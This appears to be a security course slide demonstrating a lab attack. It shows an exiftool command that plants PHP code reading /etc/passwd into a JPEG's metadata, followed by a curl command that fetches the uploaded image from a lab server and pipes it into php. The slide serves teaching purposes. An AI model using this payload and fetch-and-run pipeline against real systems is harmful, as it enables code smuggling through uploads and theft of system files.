

# Example
Image file on local machine that will be used for the attack = CCIS-6.jpg
Open the command prompt in Windows or Terminal in Mac and navigate to the location of the exiftool executable.
Embed code into “Comment” metadata for the file CCIS-6.jpg with the following command:

Upload the image file with the embedded php code to the server
Log into the attacker virtual Linux machine (192.168.1.205) from Windows using putty or ssh if using a Mac or Linux machine
Type the following curl() command
exiftool -Comment="<?php system(‘cat / /etc/passwd'); __halt_compiler(); ?>" ./Demo/CCIS-6.jpg
curl http://192.168.1.206/uploads/CCIS-6.jpg |php
22